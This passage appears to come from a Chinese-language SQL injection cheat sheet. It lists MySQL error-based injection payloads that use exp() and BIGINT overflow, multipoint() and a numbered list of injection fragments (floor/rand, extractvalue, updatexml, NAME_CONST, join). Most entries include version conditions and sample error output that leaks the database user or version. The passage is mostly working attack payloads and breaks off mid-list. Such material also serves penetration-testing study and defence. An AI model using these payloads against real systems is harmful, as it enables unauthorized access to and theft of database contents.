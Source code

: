   ```

  **exp函数数据溢出报错（有版本兼容问题）**

  ```sql

  select exp(~(select*from(select user())x));

  //ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

  ```

  **纯数据溢出(mysql<5.5.53，且报错长度有限制)**

  ```sql

  select (select(!x-~0)from(select(select user())x)a);

  //ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'

  ```

  **几何函数（mysql>5.5.47 mysql<5.7.17）**

  ```sql

  select multipoint((select * from (select * from (select version())a)b));

  //ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing

  ```

  -->[报错注入](https://xz.aliyun.com/t/253?time__1311=eqIx0DyGG%3DD%3DeODBuY5AYLhQ%3DNRbD)**（另有其他方式）**<--

  -->[更多报错注入](https://cloud.tencent.com/developer/article/2160400)<--

  ```sql

  12种报错注入函数

  1、通过floor报错,注入语句如下:

  and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

  2、通过extractvalue报错,注入语句如下:

  and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

  3、通过updatexml报错,注入语句如下:

  and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

  4、通过exp报错,注入语句如下:

  and exp(~(select * from (select user () ) a) );

  5、通过join报错,注入语句如下:

  select * from(select * from mysql.user ajoin mysql.user b)c;

  6、通过NAME_CONST报错,注入语句如下:
